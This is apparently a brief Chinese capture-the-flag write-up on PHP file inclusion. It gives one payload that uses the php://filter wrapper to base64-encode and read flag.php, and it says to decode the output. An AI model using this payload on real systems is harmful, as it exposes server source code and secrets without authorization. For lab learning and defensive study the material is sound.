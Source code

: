 # 知识点：

# 1.文件包含

# 2.php://filter协议读取文件内容



payload:

```javascript
?file=php://filter/read=convert.base64-encode/resource=flag.php
```



得到flag.php base64编码后的文件，解码即可